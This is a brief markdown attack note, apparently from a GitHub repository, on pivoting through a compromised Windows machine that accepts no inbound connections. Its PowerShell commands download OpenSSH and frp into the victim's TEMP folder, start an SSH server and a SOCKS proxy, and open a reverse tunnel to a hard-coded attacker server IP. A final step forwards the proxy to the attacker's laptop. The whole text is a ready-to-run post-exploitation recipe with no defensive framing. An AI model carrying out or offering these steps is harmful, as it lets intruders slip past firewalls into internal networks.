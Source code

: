 # pivoting a computer not bindable

## attacker_server
1) setting frp
    - download https://github.com/fatedier/frp/releases
    - ./frps -c ./frps.ini 

## victim

1) getting socks server

```powershell
cd $env:TEMP
rm -r -fo .\OpenSSH-Win32\
curl "https://github.com/PowerShell/Win32-OpenSSH/releases/download/v8.9.1.0p1-Beta/OpenSSH-Win32.zip" -o openssh.zip
Expand-Archive -LiteralPath openssh.zip -DestinationPath .
cd .\OpenSSH-Win32\
.\ssh-keygen -f id_rsa -N """"
Clear-Content .\sshd_config_default
$curLocation = Get-Location
Add-Content .\sshd_config_default  "AuthorizedKeysFile $curLocation\id_rsa.pub"
.\sshd.exe -f .\sshd_config_default -h id_rsa -p 2222
```

```powershell
$socksPort = 5555
cd $env:TEMP
cd .\OpenSSH-Win32\
.\ssh.exe -D $socksPort -N localhost -p 2222 -i .\id_rsa -o UserKnownHostsFile=a -o StrictHostKeyChecking=no
```


2) setting frp

```powershell
$attackerServerIp = "3.142.49.137" 
$attackerPort2Socks = 9050
$frpServerPort = 7000
$socksPort = 5555
cd $env:TEMP
curl "https://github.com/fatedier/frp/releases/download/v0.42.0/frp_0.42.0_windows_386.zip" -o frp.zip
Expand-Archive -LiteralPath frp.zip -DestinationPath .
cd frp_0.42.0_windows_386
Clear-Content frpc.ini
Add-Content frpc.ini "[common]"
Add-Content frpc.ini "server_addr = $attackerServerIp"
Add-Content frpc.ini "server_port = $frpServerPort"
Add-Content frpc.ini "[ssh_socks]"
Add-Content frpc.ini "type = tcp"
Add-Content frpc.ini "local_ip = 127.0.0.1"
Add-Content frpc.ini "local_port = $socksPort"
Add-Content frpc.ini "remote_port = $attackerPort2Socks"
.\frpc -c .\frpc.ini
```

## (opcional) attacker_laptop

1) ssh -L localSocksPort:127.0.0.1:attackerPort2Socks user@attackerServerIp
